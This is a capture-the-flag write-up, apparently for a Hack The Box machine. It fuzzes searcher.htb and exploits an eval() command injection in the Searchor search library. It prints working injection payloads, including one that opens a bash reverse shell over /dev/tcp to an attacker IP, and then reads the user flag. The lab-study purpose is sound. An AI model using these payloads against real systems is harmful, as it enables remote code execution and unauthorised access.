 ```
       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://searcher.htbFUZZ
 :: Wordlist         : FUZZ: wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 13519
________________________________________________

/search                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 247ms]
/server-status          [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 240ms]
:: Progress: [36040/36040] :: Job [1/1] :: 150 req/sec :: Duration: [0:04:00] :: Errors: 0 ::                                                                                           
```

Visiting http://searcher.htb, we realized that the website is powered by Flask and searchor

# Exploiting Searchor
From the website, we are able to find that Searchor is an open-sourced project that can be downloaded from [here](https://github.com/ArjunSharda/Searchor). We are also able to discover that the version of Searchor that we are using is vulnerable to command injection in the search endpoint.

From the pull request [here](https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b), we are able to find that the vulnerable code is as follows:

```
url = eval( f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})" )
```

By modifying the payload of our search query to become ```'+str(__import__('os').system('id')))#```, we will be able to cause the following command to be executed instead

```
url = eval( f"Engine.{engine}.search(''+str(__import__('os').system('id')))#', copy_url={copy}, open_web={open})" )
```

Lastly, we will have to modify our payload to become ```'+str(__import__("os").system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.7/3000 0>&1'")))#``` to spawn a reverse shell connection

# Obtaining user flag

```
svc@busqueda:/home$ cat /home/svc/user.txt
cat /home/svc/user.txt
<user flag>
```

